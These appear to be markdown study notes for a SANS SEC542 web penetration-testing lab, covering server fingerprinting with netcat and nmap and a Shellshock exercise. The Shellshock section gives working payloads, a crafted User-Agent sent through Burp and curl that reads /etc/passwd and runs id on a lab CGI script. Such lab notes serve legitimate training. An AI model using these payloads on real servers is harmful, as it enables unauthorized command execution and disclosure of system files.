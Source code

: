 [:top:][↑b]

542.2 Configuration, Identity and Authentication Testing
---

### Gathering Server Info
- **Index** - b *2* p *15-18*
   - Using *Netcat:*
      - On Port *80:*
        ```bash
        $ nc www.sec542.org 80 <press enter>
        $ HEAD / HTTP/1.0 <press enter>
        $ <press enter>
        ```
      - On Port *443:*
        ```bash
        $ nc www.sec542.org 443 <press enter>
        $ HEAD / HTTP/1.0 <press enter>
        $ <press enter>
        ```
         - This should output a *HTTP/1.1 400 Bad Request* error beacause netcat
           did not negotiate ssl. It still divulges the server information, however.
   - Using *Nmap:*
      - Version Detection: `$ nmap -sV www.sec542.org`
      - Use *NSE* scripts: `nmap --script=script-name.txt www.target.host`
         - View available scripts: `ls -l /usr/local/share/nmap/scripts`
         - Example, *robots.txt* detection:
            - *http-robots.txt.nse:* `$ nmap --script=http-robots.txt www.sec542.org`

[:top:][↑b]

### Shellshock
- **Index** - b *2* p *38-49*
   - **Shellshocking**
      - Using *Burp:*
         1. [Enable Burp][§a]
         2. *Burp* > *Proxy* > *Intercept* > select *Intercept is on*
         3. *Firefox* > *Bookmarks* > *Exercies* > select *Shellshock Netstat.cgi*
         4. *Burp* > Proxy > Intercept
            - Raw > change the User-Agent: `User-Agent: () { 42;};echo;/bin/cat /etc/passwd`
            - Select 'Intercept is off'
         5. *Firefox* should display the password file contents
            - If not, repeat steps 2-4
         6. Injecting other commands
            - Repeat steps 2-4 using: `User-Agent: () { 42;};echo;/usr/bin/id`
         7. [Disable Burp][§b]
      - Using *cURL:*
         - /etc/passwd: `$ curl -A "() { 42;};echo;/bin/cat /etc/passwd" http://127.0.0.1/cgi-bin/netstat.cgi`
         - /usr/bin/id: `$ curl -A "() { 42;};echo;/usr/bin/id" http://127.0.0.1/cgi-bin/netstat.cgi`
         - Syntax: `$ curl -A "<User-Agent>" <URL>`
   - When injecting commands, the full path to the command must be used


[↑a]: #sec542-exercises (Top of page ↑)
[↑b]: #table-of-contents (Table of Contents ➹)
[§a]: #enabling-a-proxy (Enable your Interception Proxy)
[§b]: #disabling-a-proxy (Disable your Interception Proxy)
[01]: https://httpd.apache.org/docs/trunk/mod/mod_userdir.html (Apache2 Manual: Module mod_userdir)
[02]: https://httpd.apache.org/docs/trunk/mod/mod_userdir.html#UserDir (Apache2 Manual: UserDir Directive)
[03]: https://httpd.apache.org/docs/trunk/howto/public_html.html (Apache2 Manual: Per-user web directories)
[04]: https://www.gnu.org/software/bash/manual/html_node/Tilde-Expansion.html (Bash Manual: Tilde Expansion)